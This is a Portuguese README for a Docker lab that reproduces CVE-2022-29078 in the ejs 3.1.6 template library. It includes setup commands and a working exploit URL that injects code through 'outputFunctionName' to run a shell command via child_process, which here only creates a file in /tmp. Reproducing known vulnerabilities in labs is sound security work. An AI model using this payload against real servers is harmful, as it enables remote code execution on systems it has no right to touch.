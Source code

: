 # Lab para CVE-2022-29078 | 
Biblioteca ejs@3.1.6 vulneravel 

## Roteiro
```
git clone https://github.com/vorbittencourt/demo003.git
cd demo003
docker build . -t demo003
docker run -p 8080:8080 --name demo003 demo003
```
### Exploit
```
http://127.0.0.1:8080/page?id=2&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('touch /tmp/hackeado.txt');s
```

### Validando 
```
docker exec -it demo003 /bin/bash
ls -la /tmp
```

## Executando Localmente
```
npm install 
npm start

http://localhost:8080
```

### Validando
```
ls -la /tmp/
```

# Reference
https://eslam.io/posts/ejs-server-side-template-injection-rce/
https://www.digitalocean.com/community/tutorials/how-to-use-ejs-to-template-your-node-application-pt